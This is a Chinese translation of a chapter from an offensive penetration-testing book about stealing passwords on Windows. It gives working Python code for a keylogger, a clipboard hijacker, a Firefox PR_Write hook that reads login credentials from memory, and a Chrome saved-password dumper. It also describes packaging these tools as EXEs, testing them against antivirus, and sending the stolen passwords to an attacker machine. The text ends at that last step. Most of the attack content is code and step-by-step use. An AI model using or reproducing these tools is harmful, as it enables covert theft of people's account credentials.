# 第三章：密码破解

大多数黑客认为他们的目标在运行过时且没有打补丁的 Windows XP，在这种系统上，防病毒软件已禁用，防火墙已关闭，可能也没有入侵防御系统。毕竟，你可能成功入侵他们的系统，也可能没有。这绝对不是现实世界中的渗透测试。

在本章中，我们将处理以下主题：

+   无病毒的键盘记录器

+   浏览器中的人

+   使用 Immunity Debugger 对 Firefox 进行 API 钩取

+   Firefox 中的 Python **概念验证**（**POC**）

+   Firefox 中的 Python EXE

+   密码钓鱼

+   应对措施

# 无病毒的键盘记录器

在本节中，我们将编写一个简单的软件键盘记录器，完全使用 Python 来实现。为此，我们将使用一个名为`pyHook`的库。`pyHook`库封装了 Windows 中的低级鼠标和键盘钩子。根据`pyHook`文档，任何希望接收全局输入事件通知的应用程序都必须有一个 Windows 消息泵。为此，我们还需要另一个名为`pywin`的库。

那么，让我们开始安装这些库吧。

# 安装 pyHook 和 pywin

你可以从[`sourceforge.net/projects/pyhook/files/pyhook/1.5.1/`](http://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)下载`pyHook`库，并按照屏幕上的指示轻松安装。

确保后台没有运行其他 Python 实例，否则在安装过程中会遇到错误。`pywin`库也可以以相同的方式安装。你可以从[`sourceforge.net/projects/pywin32/files/pywin32/Build%20219/`](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/)下载该库。

# 向键盘记录器添加代码

以下是键盘记录器的脚本：

```
# Python For Offensive PenTest

# pyHook download link
# http://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/

# pythoncom download link
# http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/

# Keylogger

import pythoncom, pyHook

#Again, once the user hit any keyboard button, keypressed func will be executed and that action will be store in event

def keypressed(event):

    global store

#Enter and backspace are not handled properly that's why we hardcode their values to < Enter > and <BACK SPACE>
# note that we can know if the user input was enter or backspace based on their ASCII values

    if event.Ascii==13:
        keys=' < Enter > ' 
    elif event.Ascii==8:
        keys=' <BACK SPACE> '

    else:
        keys=chr(event.Ascii)

    store = store + keys #at the end we append the ascii keys into store variable and finally write them in keylogs text file

    fp=open("keylogs.txt","w")
    fp.write(store)
    fp.close()

    return True # after intercepting the keyboard we have to return a True value otherwise we will simply disable the keyboard functionality

store = '' # string where we will store all the pressed keys

#Next we create and register a hook manager and once the user hit any keyboard button, keypressed 
#func will be executed and that action will be store in event

obj = pyHook.HookManager()
obj.KeyDown = keypressed

obj.HookKeyboard() #start the hooking loop and pump out the messages
pythoncom.PumpMessages() #remember that per pyHook documentation we must have a Windows message pump
```

让我们来看看脚本中的步骤：

1.  导入`pyHook`和`pythoncom`库，如前面的脚本所示，`import pythoncom, pyHook`。

`pyHook`库将处理与 Windows 函数`SetWindowsHookExA`的低级通信。此函数将为我们安装一个钩子，以监控键盘事件。

1.  导入`pythoncom`库，它将为我们处理 Windows 消息泵。

1.  定义一个字符串`store`，这是我们将存储所有按下的键的地方。

1.  创建并注册一个`HookManager`。一旦用户按下任意键，`keypressed()`函数将被执行，且该操作将被存储在事件中。

1.  启动钩子循环并提取消息。

请记住，根据`pyHook`文档，我们必须在这里有一个 Windows 消息泵。

1.  由于`Enter`和`Backspace`按钮未正确处理，我们需要静态配置它们的值。

请记住，我们可以通过它们的 ASCII 值来判断用户输入的是*Enter*还是*Backspace*。

1.  将 ASCII 键值追加到 `store` 变量中，最后将它们写入 `keylogs.txt` 文件。我们可以选择追加数据和文本文件，而不是覆盖它们，但建议使用写入技术而不是追加操作，以确保更高的稳定性。

1.  在拦截键盘事件后，我们需要返回一个 `True` 值；否则，我们将禁用键盘功能。

那么，让我们通过运行该模块做一个快速测试。我们将创建一个新的文本文件来进行测试。输入错误信息：Error! Hyperlink reference not valid.

```
keylogger test 
hello from python  
```

在输入上述内容时，记得在每行之间使用 *Backspace*。请注意，我们将在创建的 `keylogs` 文件中获取到我们的键盘日志。它看起来会像下面这样：

```
keyloffe <BACK SPACE> <BACK SPACE> <BACK SPACE> gger test <Enter> hello from python
```

由于我们按下了 *Backspace*，你可以看到在 keylogs 中记录了 `BACK SPACE`。

现在，终止 `keylogger` 并删除 `keylogs` 和 `New Text Document` 文件。复制 `keylogger` 文件的名称，以便我们可以通过 `py2exe` 的安装文件将其导出为 EXE 格式。然后，你可以运行该模块，`keylogger` EXE 文件将会创建。现在，让我们使用 AVG 防病毒软件快速扫描名为 `keylogger` 的 `.exe` 文件，看看是否有该 EXE 文件的签名。如果显示“未检测到威胁”，则运行该 EXE 格式的键盘记录器。接下来，登录到你的 Facebook 账户，注意到一旦我们按下键盘上的任意一个键，都会出现在 `keylogs.txt` 文件中。输入你的电子邮件地址和密码打开 Facebook 页面，并打开 `keylogs.txt` 文件。你可以看到你的密码和电子邮件地址。

请记住，你必须手动终止 `keylogger` 进程。另外，`keylogs` 文件位于与我们的二进制文件相同的目录下。

在下一节中，我们将看到如何增强我们的键盘记录器功能。

# 劫持 KeePass 密码管理器

如果你曾经和网络工程师或系统管理员一起工作过，尤其是他们操作多个设备时，那么你很可能接触过密码管理器，因为对他们来说，记住每个密码几乎是不可能的。通常，他们使用密码管理器来安全存储设备凭据。

在本节中，我们将使用一个非常常见的跨平台软件 KeePass，看看如何借助该软件劫持密码。你可以从 [`keepass.info/download.html`](https://keepass.info/download.html) 下载并安装该软件。安装后：

1.  通过点击新建图标来创建一个 `NewDatabase`。

1.  定义主密码并点击 OK。

1.  接下来，点击 eMail 并通过右键点击选择 “添加条目...” 为 `gmail` 账户创建一个新账户或新条目。

1.  现在，让我们为 PayPal 账户创建一个新条目。点击 Homebanking，然后右键点击并选择 “添加条目...” 选项。

1.  那么，让我们登录并看看是否能够使用密码管理器进行登录。我们前往[`accounts.google.com`](https://accounts.google.com)，这是登录页面。对于密码管理器，您需要从数据库中复制并粘贴用户名和密码到登录页面。请注意，在这种情况下，键盘记录器将无法工作，因为密码是复制到剪贴板中的，这只是一个复制和粘贴的过程，不涉及触摸键盘。

1.  现在，请退出您的账户。

1.  在 Python 中，要与剪贴板进行交互，您需要一个名为`pyperclip`的库，您可以从[`pypi.python.org/pypi/pyperclip/1.5.11`](https://pypi.python.org/pypi/pyperclip/1.5.11)下载。

1.  安装`pyperclip`库非常简单。我们只需要将库文件复制并粘贴到`site-packages`文件夹中。

如果在使用安装文件时遇到问题，请手动操作。

目录是`Python27/Lib`，然后是`site-packages`。文件现在已安装。

1.  接下来，进入`password manager`文件夹并打开文件查看代码。

1.  我们从导入库开始：

```
import pyperclip
import time
```

1.  接着，我们创建一个`list`，用来存储剪贴板内容：

```
list = []
```

1.  之后，我们将进入一个无限循环，不断检查剪贴板：

```
while True: # infifnite loop to continously check the clipboard

    if pyperclip.paste() != 'None': # if the clipboard content is not empty ...
        value = pyperclip.paste() # then we will take its value and put it into variable called value
        #print pyperclip.paste()

        if value not in list: #now to make sure that we don't get replicated items in our list before appending the value variable into our list
                                 #we gonna check if the value is stored earlier in the first place, if not then this means this is a new item
                                 #and we will append it to our list

            list.append(value)
        print list

        time.sleep(3)
```

如果剪贴板内容不为空（这里，空表示`None`），那么我们将获取它的值，并将其存储在一个名为`value`的变量中。为了确保`list`中不会出现重复项，在将`value`变量追加到`list`之前，我们会检查该值是否已经存在。如果没有，那么意味着这是一个新项，我们将存储它。最后，我们会打印出结果，或者您可以将其保存到文本文件中。然后，我们将休眠`3`秒，再次检查剪贴板的状态。

1.  现在，让我们运行脚本并重复整个过程一次。

1.  让我们看看当我们复制 Gmail 账户的用户名和密码时会发生什么。一旦它被复制到剪贴板，我们的脚本会立即获取剪贴板的值并将其打印出来。

1.  让我们试试我们保存的 PayPal 账户。一旦我们复制，就能看到之前输入的随机密码。

这就是密码管理器的工作原理。

# 浏览器中的中间人攻击

在本节中，我们将讨论一种新方法。正如您可能已经知道的那样，所有浏览器在您提交数据到登录页面时，都提供保存用户名和密码的功能。下次访问同一登录页面时，您会看到您的用户名和密码会自动填充，无需输入任何字符。此外，还有一些专用的第三方软件，如**LastPass**，也可以为您完成相同的工作。这里的关键是，如果目标用户使用这种方法登录，那么无论是键盘记录器还是剪贴板方法都无法奏效。

快速看一下。我们将在 Firefox 浏览器中使用 LastPass 插件。在这里打开浏览器并访问 Gmail 账户。在登录 Gmail 账户之前，我们将使用之前的剪贴板脚本：

```
# Python For Offensive PenTest

# Download Link https://pypi.python.org/pypi/pyperclip/1.5.11

# Clipboard Hijacking

import pyperclip
import time

list = [] # we create a list which will store the clipboard content

while True: # infinite loop to continuously check the clipboard

    if pyperclip.paste() != 'None': # if the clipboard content is not empty ...
        value = pyperclip.paste() # then we will take its value and put it into variable called value
        #print pyperclip.paste()

        if value not in list: #now to make sure that we don't get replicated items in our list before appending the value variable into our list
                                 #we gonna check if the value is stored earlier in the first place, if not then this means this is a new item
                                 #and we will append it to our list

            list.append(value)
        print list

        time.sleep(3)
```

运行脚本，然后使用 LastPass 登录 Gmail 账户。你会注意到 LastPass 已经自动填入了电子邮件和密码。

成功登录后，你会注意到剪贴板脚本在这里没捕捉到任何内容。现在我们从 Gmail 账户退出。

针对这一点，黑客们创造了一种新的攻击方式，称为**浏览器中人攻击**，以克服这个困境。简而言之，浏览器中人攻击拦截浏览器的 API 调用，并在数据以明文形式出现时提取数据，避免数据进入网络套接字并进行 SSL 加密。

# Firefox 进程

我们现在将调试并进入 Firefox 进程。然后，我们将拦截 DLL 模块中特定函数的 API 调用：



这是 DLL，我们将在 DLL 中对特定函数进行拦截。之后，我们将提取数据并继续流程。总结起来，执行的步骤如下：

1.  获取浏览器进程的进程 ID。

1.  将我们的调试器附加到此进程 ID。

1.  指定我们想要拦截的 DLL 库，以及 DLL 中的函数名称。请记住，我们需要知道函数的内存地址，以便在拦截后继续流程。

1.  设置一个断点并注册一个`callback`函数。

1.  在`callback`函数中，我们将以明文形式打印出内存中的敏感数据。

1.  使用调试循环等待调试事件。

1.  一旦发生调试事件，执行`callback`函数。

1.  执行`callback`函数后，我们将返回到原始进程继续正常流程。

在接下来的两个部分中，我们将看到这些步骤的实际操作。比看起来要简单得多。

# 使用 Immunity Debugger 进行 Firefox API 钩取

Firefox 使用一个名为`PR_Write`的函数将数据写入 TCP 套接字。这个函数位于一个名为`nss3.dll`的 DLL 模块中。为了演示，我们需要准备一个 Twitter 账户。创建该账户并登录后，退出账户，然后再登录。由于我们使用 LastPass，登录凭据已经由 LastPass 自动填写。点击登录按钮后，幕后会发生什么？



在后台，Firefox 将加载`nss3.dll`库并调用`PR_Write`函数以提交数据（登录 ID 和密码）。一旦 Firefox 执行这些步骤，我们将设置一个断点并拦截流量。让我们从[`debugger.immunityinc.com/ID_register.py`](https://debugger.immunityinc.com/ID_register.py)安装**Immunity Debugger**软件开始。安装过程相当简单。Immunity Debugger 将获取浏览器进程的进程 ID，并直接附加调试器到该 PID。我们只需从文件 | 附加菜单中选择要附加的 Firefox 进程列表中的进程即可。默认情况下，Immunity Debugger 会解析进程 ID 并为我们附加。接下来的操作是指定 DLL 库和函数名称，即`nss3.dll`和`PR_Write`。为此，只需进入视图 | 可执行模块，查看“名称”字段来搜索正确的 DLL。右键单击高亮的 DLL，然后选择查看名称。滚动查找直到找到`PR_Write`函数。

所以，到这里，我们已经完成了前一部分关于*Firefox 进程*的前四个步骤。

由于我们使用 Immunity Debugger 手动进行钩子操作，因此不需要指定`callback`函数。

要设置断点，只需按键盘上的*F2*或右键点击并指定切换断点。完成后，点击播放按钮几次。

现在再次打开 Firefox 窗口。注意，每当我们达到断点时，位于 Immunity Debugger 屏幕底部的任务管理器会通知我们。执行也会被暂停。你可以看到暂停的窗口，除非我们手动再次点击播放按钮，否则它将保持暂停状态。现在点击登录按钮。要查看内存内容，只需右键点击并选择地址 | 相对于 ESP 寄存器，这就是堆栈指针。然后只需多次点击播放按钮。右键单击其中一个 ESP 寄存器并选择“跟踪转储”，以便我们可以在此看到内存转储。再次需要多次点击播放按钮。再次右键单击并选择“跟踪转储”。经过几次点击后，我们将首先将内存转储复制到新文本文件中，然后终止调试器。你会看到与我们登录 Twitter 账户时使用的相同的用户名和密码。用户名/邮箱是`bigtasty@gmail.com`。我们可以看到一些十六进制字符，我们需要将其转换回 ASCII。我们可以通过查看 ASCII 码表来完成此操作。

下面是我们获得的邮件和密码：

```
mail%5D= bigtasty321%40gmail.com
password%5D= %58123justyouandme%5D
```

我们将从电子邮件地址开始。注意，十六进制的`40`在 ASCII 中代表`@`。因此，我们得到了`bigtasty`通过`321@gmail`。对于密码，`58`代表左括号`[`，`5D`代表右括号`]`。因此，我们的用户名和密码将如下所示：

```
mail%5D= bigtasty321@gmail.com
password%5D= [123justyouandme]
```

现在，我们将尝试使用我们刚刚弄清楚的信息登录 Twitter 帐号。访问 Twitter 登录页面，复制用户名和密码，你会看到你可以成功登录。

请记住，这一切只是手动方法的介绍，它只是为下一节做铺垫。在下一节中，我们将展示如何通过 Python 脚本得到相同的结果。

# Firefox 中的 Python 概念验证（PoC）

在本节中，我们将编写一个 Python 脚本，自动化我们使用 Immunity Debugger 所做的相同步骤。为此，我们将使用一个名为 `winappdbg` 的 Python 库，来自动化调试 Firefox 进程。所以，让我们首先安装这个库。你可以从[`winappdbg.sourceforge.net/`](http://winappdbg.sourceforge.net/)下载这个库。

我们之前在 Firefox 进程部分提到的步骤可以被转换为代码。我们来一步步实现：

1.  首先，我们需要获取进程 ID，然后将其附加到调试器。实现这一操作的 Python 代码如下：

```
...
debug = Debug(MyEventHandler()) # Create a debug object instance
try:
    for ( process, name ) in debug.system.find_processes_by_filename( "firefox.exe" ): # Search for Firefox.exe process, if found 
        print '[+] Found Firefox PID is ' + str (process.get_pid()) # Grab the Process ID (PID)
    debug.attach( process.get_pid() ) # Attach to the process.
    debug.loop()
...
```

如你所见，首先我们搜索 Firefox 进程，然后检索其进程 ID。接着，我们将进程 ID 附加到调试器，并将一个名为 `MyEventHandler` 的类传递给 `debug` 函数。

1.  在`MyEventHandler`类中，我们指定了要拦截的 DLL 库及其函数名，并将解析其内存地址。我们来看看代码：

```
...
class MyEventHandler( EventHandler ):

    def load_dll( self, event ):

        module = event.get_module() # Get the module object
        if module.match_name("nss3.dll"): # If it's nss3.dll ,then 
            pid = event.get_pid() # Get the process ID
            address = module.resolve( "PR_Write" ) # Get the address of PR_Write
            print '[+] Found PR_Write at addr ' + str(address)
            event.debug.hook_function( pid, address, preCB=PR_Write, postCB=None ,paramCount=3,signature=None)
...
```

你可以看到 DLL 名称 `nss3.dll` 和函数名 `PR_Write`。我们已经解析了该函数的内存地址。然后我们设置了断点，并注册了 `callback` 函数。注意，我们需要向 `callback` 函数传递一些强制信息，比如进程 ID 和解析出来的函数内存地址。你可以看到 `pid` 和 `address`。注意我们将 `callback` 函数命名为 `PR_Write`。当断点发生时，应该将 `3` 个参数传递给 `callback` 函数。那么问题来了：这 `3` 个参数是什么？我如何知道它们的数量呢？这些问题的答案来自于 Mozilla Firefox 的开发者。

1.  如果我们打开[`developer.mozilla.org/en-US/docs/Mozilla/Projects/NSPR/Reference/PR_Write`](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/NSPR/Reference/PR_Write)链接，我们将获得更多关于 PR 函数参数的详细信息。

`PR_Write` 是函数名，作用是将数据缓冲区写入文件或套接字。你还可以看到函数参数，如 `*fd`、`*buf` 和 `amount`。如果你还记得，在 Immunity Debugger 中，每当我们得到断点并进入 `PR_ function` 时，我们都会追踪内存内容。

这里，第二个参数 `buf` 将给我们一个指向提交数据的内存地址的指针；在我们的例子中，我们正在寻找的是用户名和密码。因此，我们所需要做的就是解析该指针的内存地址。现在，让我们在代码中体现这一点：

```
def PR_Write(event, ra, arg1, arg2, arg3):
```

您可以看到三个参数分别是 `arg1`、`arg2` 和 `arg3`；我们已经提到过 `paramCount=3`。我们将它们传递给我们的 `callback` 函数。如前所述，我们主要关注第二个参数，它是内存指针。

1.  我们需要做的最后一步是读取该指针内存地址的前 1 KB，这段代码将为我们完成此任务：

```
print process.read(arg2,1024)
```

参数 2 包含参数 2，它是内存指针，我们将读取该地址的前 1 KB。

所以，此时我们已经完成了 Firefox 流程部分中提到的其余步骤，执行了 `callback` 函数并打印了内存转储。

调试何时会处理完成正常流程？在前一部分，我们使用 Immunity Debugger 进行了尝试，操作的是 Twitter 账户。现在让我们尝试使用 PayPal 账户：

1.  访问 PayPal 登录页面并尝试获取登录信息。

1.  运行脚本。一旦我登录，注意观察我们得到的输出。

1.  如果我们输入错误的凭证，PayPal 会给我们发送一个错误信息。

1.  中断脚本并将输出导出到文本文件中。为此，请前往 文件 | 另存为...，以文本格式保存文件。在文本文件中搜索用户名。如果仔细观察，您将看到我们得到了登录的电子邮件 ID 以及登录密码，而且这两个信息都是明文显示的。现在，让我们验证这些是否与 LastPass 中存储的凭证相同。

1.  访问 Sites | Finance | paypal.com，然后右键点击并选择编辑。如果点击密码选项旁边的眼睛图标，您将能看到密码，这个密码与我们从 Firefox 进程中提取的密码相同。

在进入下一部分之前，请记住，拦截像 `PR_Write` 这样的函数会严重影响 Firefox 进程的性能，因为该函数将被频繁调用。每次拦截该函数时，会导致延迟，甚至可能导致整个进程崩溃。

# 在 Firefox EXE 中使用 Python。

在本节中，我们将增强之前的 PoC 脚本，以匹配以下内容：

1.  一旦您在内存中获得 pass，打印出内存转储并停止调试，以减少性能问题。

1.  将您的脚本导出为独立的 EXE 文件，以便在后期利用阶段使用（使用 `Py2exe`）。

1.  针对杀毒软件进行测试。

1.  通过在登录 Twitter、Gmail、PayPal 和 Facebook 账户时进行测试，确保其功能正常。

在回调函数中，添加一个新的 `if` 语句，以便在获得 pass 关键字后终止调试。在将此脚本发送给目标之前，最好先在本地测试。为此，您可能需要更改 `py2exe` 设置文件中的控制台模式。

为了测试脚本，我们将登录 Facebook 账户：

1.  进入 Facebook 的登录页面。你会看到，LastPass 已经为我们填入了用户名和密码。

1.  运行我们的脚本。你将得到 Firefox 进程 ID 和该功能的内存地址。

1.  一旦我们点击登录按钮，注意我们从内存中提取的凭证。你会看到电子邮件地址和密码。

1.  现在，让我们检查一下这个密码是否确实是 LastPass 中存储的正确密码。为此，首先从 Facebook 注销，然后进入 Sites | Social；现在，右键点击 Facebook.com 并选择编辑。

1.  当你点击编辑时，如果你想查看密码值，你会看到我们脚本提取的相同内容。

1.  现在，让我们看看相同的工具和技术是否可以在其他网站上使用。为此，我们将关闭 Facebook 页面，前往 [`www.paypal.com/in/signin`](https://www.paypal.com/in/signin) 进行登录。

1.  让我们运行工具并进入 PayPal 账户。你会看到我们获得了用于登录的用户名和密码。

1.  现在，让我们验证这是否是 LastPass 中存储的相同密码和用户名。你只需按照之前的步骤操作即可。

1.  我们将尝试用 Twitter 做相同的事情，进入 Twitter 的登录页面。

1.  像往常一样运行工具，点击登录按钮后，我们可以看到电子邮件地址和密码。

正如我们之前看到的，这些值是十六进制格式的，需要转换为 ASCII 格式。

提醒一下，我们之前看到的键盘记录器或剪贴板劫持技术，在类似的场景下是无法使用的，因为我们没有输入或粘贴任何数据。

# 从 Google Chrome 中提取保存的密码

在这一部分，我们将讨论另一种密码破解技术。这种技术最初是为了解决忘记密码时找回密码的问题。我们将利用这个技术，远程破解保存的密码。为了让这种攻击成功，目标必须使用 Google Chrome，并且他们应该已经保存了登录密码。让我们来看看这是如何工作的。登录 Facebook 账户后，你会注意到屏幕右上角出现一个提示，询问你是否保存密码，旁边有一个“保存密码”按钮。如果我们的目标点击了保存密码，那么我们将能够远程获取该密码。

我们现在来看一下如何操作。首先从 Facebook 注销。

# 远程获取密码

让我们先来了解 Google Chrome 是如何存储和恢复保存的密码的：



所以，第一个事实是，我们应该知道 Google Chrome 使用 Windows 登录密码作为密钥来执行加密和解密过程。第二个我们需要知道的事情是，已加密的密码存储在一个名为 Login Data DB 的 SQLite 数据库中，并且该数据库位于路径 `C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default`。

Google Chrome 调用一个特定的 Windows API 函数`CryptProtectData`，它使用 Windows 登录密码作为加密密钥。在反向操作中，调用 Windows API `CryptUnProtectData`来解密密码值并还原为明文。现在让我们总结一下 Chrome 如何保存密码的过程。

假设我们的目标第一次登录 Facebook 时，Google Chrome 会提示他们保存密码。如果他们点击保存密码，那么 Google Chrome 会将这个明文密码传递给`CryptProtectData` API，这个 API 会使用 Windows 登录密码加密该密码并将其保存在登录数据数据库中。之后，当目标再次访问 Facebook 页面时，Google Chrome 会检索到加密的密码并将其传递给`CryptUnProtectData` API 函数。之后，我们就会得到明文密码。然后，Google Chrome 会代表你提交密码。

从技术上讲，如果我们编写一个 Python 脚本来从 Chrome 数据库中抓取加密的密码，并将该值传递给`CryptUnprotectData` API 函数，那么我们应该能够看到保存的密码以明文格式显示；这正是我们在这里要做的。

在进入代码部分之前，我们先看看 SQL 数据库。这里我们将使用一个免费的开源 SQLite 数据库浏览器：

1.  导航到 Google Chrome 创建的 SQLite 数据库。在我的例子中，路径是`C:\Users\Hussam\AppData\Local\Google\Chrome\User Data\Default`，Chrome 在这里创建了它的数据库，我们将把`Login Data`文件复制到桌面。

1.  我们需要将扩展名改为 SQLite，这样才能在数据库浏览器中导入。

1.  所以现在我们要做的就是点击“打开数据库”，然后前往桌面，打开`Login Data.sqlite3`。

1.  导入后，你会看到有一个叫做`logins`的表。

1.  一旦我们点击“浏览数据”，我们就可以看到一些有趣的列：



`action_url`是用户在提交登录凭证时导航到的 URL，在我们的例子中，它是 Facebook 的 URL。`username_value`和`password_value`分别是已提交的用户名和密码的值。

1.  我们需要定位 SQLite 数据库，因为`USERNAME`目录是一个变量，在不同的电脑上会有所不同。

我们需要从数据库中抓取`action_url`、`username_value`和`password_value`列的值。

1.  最后，我们将`password_value`传递给`CryptUnProtectData`函数或 API 函数，解密为明文。

那么，让我们开始编写代码部分：

```
# Python For Offensive PenTest

# Installing win32crypt
# http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/

# Dumping Google Chrome Passwords 

from os import getenv # To find out the Chrome SQL path which is >> C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Login Data
import sqlite3 # To read the Chrome SQLite DB
import win32crypt # High level library to call windows API CryptUnprotectData
from shutil import copyfile # To make a copy of the Chrome SQLite DB

# LOCALAPPDATA is a Windows Environment Variable which points to >>> C:\Users\{username}\AppData\Local

path = getenv("LOCALAPPDATA") + "\Google\Chrome\User Data\Default\Login Data"

# IF the target was logging into a site which has an entry into the DB, then sometimes reading the Chrome DB will return an error that the DB is locked 
# OperationalError: database is locked
# The Workaround for this, is to make a copy the Login Data DB and pull data out of the copied DB

path2 = getenv("LOCALAPPDATA") + "\Google\Chrome\User Data\Default\Login2"
copyfile(path, path2)
...
```

我们将从导入必要的库开始：

1.  我们将导入`getenv`，来解析 Windows 环境变量并找到 Google Chrome 的 SQL 路径。

1.  接下来，我们导入 SQLite3 来读取 Chrome 的 SQLite 数据库并获取其原始值。

1.  我们导入了 `win32crypt`，它提供了一个高级库来调用 Windows API `CryptUnProtectData`。请记住，要使用这个库，我们首先需要从 [`sourceforge.net/projects/pywin32/files/pywin32/Build%20219/`](http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/) 安装 `pywin32` 库。

`LOCALAPPDATA` 是一个 Windows 环境变量，指向 `C:\Users`，然后是 `username`，接着是 `AppData\Local` 路径——这就是我们完整路径的一半。所以，一旦我们得到了这一部分，接下来只需将路径的第二部分附加上，方法是添加 `\Google\Chrome\User Data\Default\Login Data`，以获得 `Login Data` 数据库的绝对路径。

如果目标用户正在登录某个网站，并且该网站在数据库中有条目，那么有时读取 Chrome 数据库时会返回一个错误，提示数据库被锁定；当你运行 Python 脚本时，会遇到一个名为 `database is locked` 的异常。在我们的例子中，如果目标用户在我们要读取 Chrome 数据库时已经登录 Facebook，那么我们希望能够读取。解决方法是复制登录数据库并从复制的数据库中提取数据。因此，这里复制的数据库被命名为 `Login2`，并且与原始数据库位于同一目录下。此时，我们已经完成了定位数据库的第一步。

由于原始数据库可能被锁定，我们将从复制的数据库中读取数据。我们通过使用 `sqlite3.connect` 函数，指向复制的数据库路径来完成这项操作：

```
...
# Connect to the copied Database
conn = sqlite3.connect(path2)

cursor = conn.cursor() # Create a Cursor object and call its execute() method to perform SQL commands like SELECT

# SELECT column_name,column_name FROM table_name
# SELECT action_url and username_value and password_value FROM table logins
cursor.execute('SELECT action_url, username_value, password_value FROM logins') 
...
```

接着，我们创建一个游标对象，以便执行 SQL 查询来提取所需的列。如果你还记得，表名是 `login`，它有三列重要数据，分别是 `username` 和 `password_value`，以及 `action_url`。

然后，我们将选择这些列，并使用带有 `fetchall` 函数的 `for` 循环来提取它们的值：

```
...
# To retrieve data after executing a SELECT statement, we call fetchall() to get a list of the matching rows.
for raw in cursor.fetchall():

    print raw[0] + '\n' + raw[1] # print the action_url (raw[0]) and print the username_value (raw[1])
...
```

结果将存储在一个原始变量中，然后我们将打印出列表中的前两个值，即 `action_url` 和 `username_value`。这样做之后，我们就完成了计划的第二步，从 Chrome 数据库中提取数据。

最后一步是调用 `CryptUnProtectData` API 函数，并传入加密的密码，这个密码存储在我们原始列表的第三个元素中。最终，我们将打印出结果：

```
...    
password = win32crypt.CryptUnprotectData(raw[2])[1] # pass the encrypted Password to CryptUnprotectData API function to decrypt it 
    print password # print the password in clear text

conn.close()
```

现在，运行模块时你会看到我们得到三个项：URL、用户名和明文密码。

尝试再次确认这些是否是登录我 Facebook 账户的正确凭据。也可以尝试其他网站，比如 Twitter、PayPal 等。

# 通过 HTTP 会话提交恢复的密码。

在本节中，我们将修改之前的脚本，以自动提交恢复或被攻击的密码通过 HTTP 会话。然后，我们将把它发送回黑客机器，最终结果应该是一个独立的文件，可以在后期利用或作为一个与新 Python Shell 集成的功能。

我们将在 Kali 机器上启动 HTTP 服务器，以接收目标网站的被黑密码。我们只需双击 Chrome Dumper EXE 文件。你会看到，我们成功地从 Chrome 数据库中远程获取了保存的密码。在这里，我们抓取了 Facebook 的邮箱和密码，还有 Twitter 账户。现在，如果我们切换到目标机器上，我们会看到以下是当前在目标站点上打开的两个会话：

